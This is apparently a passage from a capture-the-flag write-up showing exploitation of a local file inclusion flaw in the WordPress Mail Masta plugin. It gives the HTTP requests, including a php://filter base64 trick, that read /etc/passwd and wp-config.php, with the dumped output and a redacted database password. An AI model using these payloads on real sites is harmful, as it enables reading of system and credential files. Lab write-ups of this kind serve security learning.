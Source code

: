 To retrieve **`/etc/passwd`**, I used:

```http
GET /wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd HTTP/1.1
```

```sh linenums="1" hl_lines="24"
root:x:0:0:root:/root:/bin/bash 
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin 
bin:x:2:2:bin:/bin:/usr/sbin/nologin 
sys:x:3:3:sys:/dev:/usr/sbin/nologin 
sync:x:4:65534:sync:/bin:/bin/sync 
games:x:5:60:games:/usr/games:/usr/sbin/nologin 
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin 
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin 
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin 
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin 
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin 
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin 
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin 
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin 
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin 
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin 
Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin 
syslog:x:102:106::/home/syslog:/usr/sbin/nologin 
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin 
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin 
dnsmasq:x:107:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin 
landscape:x:108:112::/var/lib/landscape:/usr/sbin/nologin 
pollinate:x:109:1::/var/cache/pollinate:/bin/false 
elyana:x:1000:1000:Elyana:/home/elyana:/bin/bash 
mysql:x:110:113:MySQL Server,,,:/nonexistent:/bin/false 
sshd:x:112:65534::/run/sshd:/usr/sbin/nologin 
ftp:x:111:115:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin 
```

This confirmed the user **elyana**.

I then attempted to retrieve the `wp-config.php` file. However, I didn't receive a response.

!!! failure "Failed"
    ```http
    GET /wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/wordpress/wp-config.php HTTP/1.1
    ```
 Later, I discovered that I needed to encode PHP files into text form in Base64:

!!! success "Succeeded"
    ```http
    GET /wordpress/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=php://filter/convert.base64-encode/resource=file:///var/www/html/wordpress/wp-config.php HTTP/1.1
    ```

```php linenums="1" hl_lines="4 7"

<?php

/** MySQL database username */
define( 'DB_USER', 'elyana' );

/** MySQL database password */
define( 'DB_PASSWORD', '{--REDACTED--}' );

/** MySQL hostname */
define( 'DB_HOST', 'localhost' );

/** Database Charset to use in creating database tables. */
```